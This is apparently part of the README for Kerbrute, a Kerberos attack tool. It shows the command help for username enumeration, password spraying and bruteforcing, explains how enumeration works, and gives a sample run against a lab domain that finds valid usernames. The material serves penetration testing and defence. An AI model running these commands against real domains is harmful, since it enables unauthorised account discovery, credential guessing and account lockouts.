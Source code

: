 ```
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string          The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int          Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string      The full domain to use (e.g. contoso.com)
      --downgrade          Force downgraded encryption type (arcfour-hmac-md5)
      --hash-file string   File to save AS-REP hashes to (if any captured), otherwise just logged
  -h, --help               help for kerbrute
  -o, --output string      File to write logs to. Optional.
      --safe               Safe mode. Will abort if any user comes back as locked out. Default: FALSE
      --socks string       SOCKS5 proxy address and port for upstream proxying (e.g. 127.0.0.1:1080)
  -t, --threads int        Threads to use (default 10)
  -v, --verbose            Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

### User Enumeration
To enumerate usernames, Kerbrute sends TGT requests with no pre-authentication. If the KDC responds with a `PRINCIPAL UNKNOWN` error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failures so it will not lock out any accounts. This generates a Windows event ID [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) if Kerberos logging is enabled.

```
root@kali:~# ./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 08/15/24 - Ronnie Flathers @ropnop | ZedH @0xZDH

2019/03/06 21:28:04 >  Using KDC(s):
2019/03/06 21:28:04 >   pdc01.lab.ropnop.com:88

2019/03/06 21:28:04 >  [+] VALID USERNAME:       amata@lab.ropnop.com
2019/03/06 21:28:04 >  [+] VALID USERNAME:       thoffman@lab.ropnop.com
2019/03/06 21:28:04 >  Done! Tested 1001 usernames (2 valid) in 0.425 seconds
```
